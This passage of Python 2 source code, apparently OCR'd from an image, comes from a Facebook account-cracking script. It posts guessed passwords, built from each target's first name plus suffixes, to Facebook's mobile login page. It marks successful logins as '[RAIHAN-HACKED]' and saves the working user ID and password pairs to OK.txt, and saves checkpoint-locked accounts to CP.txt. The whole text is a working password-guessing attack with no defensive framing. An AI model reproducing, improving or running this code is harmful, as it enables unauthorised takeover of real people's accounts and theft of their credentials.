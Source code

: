                                 'login': 'submit' })
                            sp = data.content
                            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                ok = open('OK.txt', 'a')
                                ok.write(uid + '|' + ps5 + '\n')
                                ok.close()
                                oks.append(uid + ps5)
                            elif 'checkpoint' in sp:
                                print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps5 + '\x1b[0;97m'
                                cp = open('CP.txt', 'a')
                                cp.write(uid + '|' + ps5 + '\n')
                                cp.close()
                                cps.append(uid + ps5)
                            else:
                                ps6 = name.lower().split(' ')[0] + p6
                                data = session.post('https://mbasic.facebook.com/login.php', data = {
                                    'email': uid,
                                    'pass': ps6,
                                    'login': 'submit' })
                                sp = data.content
                                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                    print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    ok = open('OK.txt', 'a')
                                    ok.write(uid + '|' + ps6 + '\n')
                                    ok.close()
                                    oks.append(uid + ps6)
                                elif 'checkpoint' in sp:
                                    print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps6 + '\x1b[0;97m'
                                    cp = open('CP.txt', 'a')
                                    cp.write(uid + '|' + ps6 + '\n')
                                    cp.close()
                                    cps.append(uid + ps6)
                                else:
                                    ps7 = name.lower().split(' ')[0] + p7
                                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                                        'email': uid,
                                        'pass': ps7,
                                        'login': 'submit' })
                                    sp = data.content
                                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                        print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        ok = open('OK.txt', 'a')
                                        ok.write(uid + '|' + ps7 + '\n')
                                        ok.close()
                                        oks.append(uid + ps7)
                                    elif 'checkpoint' in sp:
                                        print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps7 + '\x1b[0;97m'
                                        cp = open('CP.txt', 'a')
                                        cp.write(uid + '|' + ps7 + '\n')
                                        cp.close()
                                        cps.append(uid + ps7)
                                    else:
                                        ps8 = name.lower().split(' ')[0] + p6
                                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                                            'email': uid,
                                            'pass': ps8,
                                            'login': 'submit' })
                                        sp = data.content
                                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                                            print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps8 + '\x1b[0;97m'
                                            ok = open('OK.txt', 'a')
                                            ok.write(uid + '|' + ps8 + '\n')
                                            ok.close()